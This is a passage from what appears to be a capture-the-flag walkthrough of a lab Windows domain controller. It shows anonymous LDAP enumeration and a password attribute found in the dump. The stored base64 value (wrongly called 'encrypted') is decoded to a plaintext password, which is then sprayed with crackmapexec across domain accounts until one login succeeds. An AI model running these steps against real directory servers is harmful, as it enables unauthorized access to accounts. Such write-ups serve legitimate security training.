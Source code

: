 ```bash
$ ldapsearch -h 10.10.10.182 -x -s base namingcontexts                                                                                                                                                                              32 ⨯
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingContexts: DC=cascade,DC=local
namingContexts: CN=Configuration,DC=cascade,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=cascade,DC=local
namingContexts: DC=DomainDnsZones,DC=cascade,DC=local
namingContexts: DC=ForestDnsZones,DC=cascade,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

As ldap dump was quite a big I saved it into file and look for low hanging fruits.   

```bash
$ ldapsearch -h 10.10.10.182 -x -b "DC=cascade,DC=local" > ldap_dump
$ cat ldap_dump| grep -i pwd

[snip..]                                            

pwdLastSet: 132247150854857364
badPwdCount: 0                                            
pwdLastSet: 132230718862636251
cascadeLegacyPwd: clk0bjVldmE=
badPwdCount: 0                                            
pwdLastSet: 132233548311955855
badPwdCount: 0                                            
pwdLastSet: 132230756844150124
badPwdCount: 0                                            
pwdLastSet: 132233522678003963
```

`cascadeLegacyPwd: clk0bjVldmE=` seems really interesting as it is same as box name. Its base64 encrypted string. I decrypted string and throw it into crackmapexec

```bash
crackmapexec smb 10.10.10.182 -u username -p rY4n5eva --continue-on-success
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\arksvc:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\s.smith:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\util:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.wakefield:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\s.hickson:rY4n5eva STATUS_LOGON_FAILURE 
```
